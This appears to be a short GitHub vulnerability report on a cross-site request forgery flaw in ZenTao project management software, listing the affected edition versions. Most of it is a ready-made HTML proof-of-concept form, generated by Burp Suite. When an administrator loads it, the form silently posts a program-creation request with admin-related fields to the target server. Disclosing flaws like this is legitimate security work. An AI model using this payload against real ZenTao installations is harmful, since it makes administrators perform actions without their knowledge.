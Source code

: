 # Cross-site Request Forgery Attack (CSRF) in ZenTao

Impact：ZenTao project management software is an open source project management software. Its latest version (Enterprise Edition<=5.0.rc1, Professional Edition<=10.0.rc1, Open Source Edition<=15.0) has cross-site request forgery attacks. Users can construct scenarios to entice administrators to perform background operations without their knowledge.

## 1.poc

poc：
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://ip:8002/index.php?m=program&f=create" method="POST">
      <input type="hidden" name="parent" value="0" />
      <input type="hidden" name="name" value="1" />
      <input type="hidden" name="PM" value="admin" />
      <input type="hidden" name="budget" value="1" />
      <input type="hidden" name="budgetUnit" value="CNY" />
      <input type="hidden" name="begin" value="2021&#45;04&#45;21" />
      <input type="hidden" name="end" value="" />
      <input type="hidden" name="status" value="wait" />
      <input type="hidden" name="desc" value="1" />
      <input type="hidden" name="acl" value="private" />
      <input type="hidden" name="whitelist&#91;&#93;" value="" />
      <input type="hidden" name="whitelist&#91;&#93;" value="admin" />
      <input type="hidden" name="uid" value="607feb9b12a29" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
![img](2.png)
The administrator can trigger the corresponding operation after clicking
